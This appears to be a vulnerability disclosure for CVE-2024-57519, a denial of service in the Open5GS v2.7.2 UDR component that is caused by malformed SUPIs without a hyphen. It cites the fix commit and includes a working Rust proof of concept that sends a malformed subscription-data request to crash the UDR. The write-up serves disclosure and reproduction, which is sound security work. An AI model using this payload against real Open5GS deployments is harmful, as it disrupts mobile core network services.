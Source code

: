 ## CVE-2024-57519: Denial of Service in Open5GS v2.7.2 UDR Component via Malformed SUPI Handling

A denial of service (DoS) vulnerability exists in the UDR (Unified Data Repository) component of Open5GS v2.7.2. 
This vulnerability arises due to improper handling of malformed SUPIs (Subscriber Permanent Identifiers) by the `ogs_dbi_auth_info` function in the `lib/dbi/subscription.c` file.
When a malformed SUPI that lacks a hyphen (`-`) is sent to the `/subscription-data` endpoint of the Nudr_DataRepository API, the `ogs_id_get_value` function fails to parse the SUPI.
This leads to an assertion failure in the UDR, causing it to crash.

The issue was fixed on commit [08b9e7c55f72649ef25b5407e7e4d938f0f16531](https://github.com/open5gs/open5gs/commit/08b9e7c55f72649ef25b5407e7e4d938f0f16531).

### Steps to reproduce:

1) Follow the [Open5GS Quickstart Guide](https://open5gs.org/open5gs/docs/guide/01-quickstart/) to set up the Open5GS core environment.

2) Adjust the IP address (`127.0.0.1`) and port (`7777`) if necessary, and run the following rust program to send the malicious payload.

```rust
use std::net::TcpStream;
use solicit::http::HttpScheme;
use solicit::http::connection::HttpConnection;
use solicit::http::client::write_preface;
use solicit::client::SimpleClient;

fn main() {
    let mut stream = TcpStream::connect(("127.0.0.20", 7777)).unwrap();
    let _ = write_preface(&mut stream);

    let conn = HttpConnection::<TcpStream, TcpStream>::with_stream(
        stream,
        HttpScheme::Http,
    );

    let headers = vec![
        (b"accept".to_vec(), b"application/json,application/problem+json".to_vec())
    ];

    let mut client = SimpleClient::with_connection(conn, "127.0.0.20:7777".into()).unwrap();
    let _ = client.get(
        b"/nudr-dr/v1/subscription-data/imsiMALFORMED/authentication-data/authentication-subscription",
        &headers,
    );

    println!("[+] Payload sent successfully");
}
```

3) Check `/var/log/open5gs/udr.log` to see the crash logs.

